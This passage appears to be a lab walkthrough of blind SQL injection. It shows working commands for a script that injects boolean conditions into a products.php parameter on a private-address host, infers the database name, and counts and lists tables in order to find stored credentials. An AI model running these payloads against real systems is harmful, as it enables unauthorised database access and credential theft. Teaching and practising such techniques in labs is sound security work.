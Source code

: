 
### Expected Output

```
shopdb
```

**What just happened:**

1. Script tested if database name length > 16, > 8, > 4, etc. (binary search)
2. Found length = 6
3. For each position (1-6), tested ASCII values to find exact character
4. Printed complete result: `shopdb`

**Write down**: `Database = shopdb`

***

## Step 7: Extract Table Names

### What You're Doing

Finding all tables in the database to locate where credentials are stored.

### First: Count Tables

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())" \
  --maxlen 8
```

**Expected Output:**

```
4
```

**What this means**: 4 tables exist in the database.

***

### Extract Each Table Name

**Table 1 (OFFSET 0):**

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 0)" \
  --maxlen 32
```
